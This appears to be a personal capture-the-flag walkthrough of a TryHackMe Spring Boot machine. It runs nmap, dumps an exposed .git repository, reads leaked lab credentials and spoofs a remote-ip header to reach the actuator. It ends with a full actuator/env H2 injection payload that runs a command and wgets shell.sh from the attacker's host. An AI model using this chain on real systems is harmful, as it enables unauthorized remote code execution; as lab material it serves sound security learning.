

`nmap -sVC -T4 -p- 10.10.197.190`


https://github.com/internetwache/GitTools
You can use this tool to find websites with their .git repository available to the public
`./gitdumper.sh https://10.10.197.190/sources/new/.git/ /home/yousef/tryhackme/Spring/`


The ==git reset== command is used to undo the changes in your working directory and get back to a specific commit while discarding all the commits made after that one. For instance, imagine you made ten commits. Using git reset on the first commit will remove all nine commits, taking you back to the first commit stage.

some files did appear!

I think it's a java application
got to the java code in the main


```Java
    @RestController
    //https://spring.io/guides/gs/rest-service/
    static class HelloWorldController {
        @RequestMapping("/")
        public String hello(@RequestParam(value = "name", defaultValue = "World") String name) {
            System.out.println(name);
            return String.format("Hello, %s!", name);
        }
    }
```
I think it accepting ?name parameter

It is accepting parameters 
it is using tomcat server

has acutator endpoint can only access from ==172.16.0.0== ip

https://www.baeldung.com/spring-boot-actuators
https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/
Found creds on application.proberites 

```
server.ssl.key-store-password=DummyKeystorePassword123.
spring.security.user.name=johnsmith
spring.security.user.password=PrettyS3cureSpringPassword123.
```
but no lucky trying to ssh

but this header
```
server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04
```
when access the actutator endpoint we get 403

but adding ==x-9ad42dea0356cb04: 127.16.0.2== to the request:


```
POST /actuator/env HTTP/1.1
Host: target.app
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('wget http://10.9.4.217/shell.sh');');"}
```
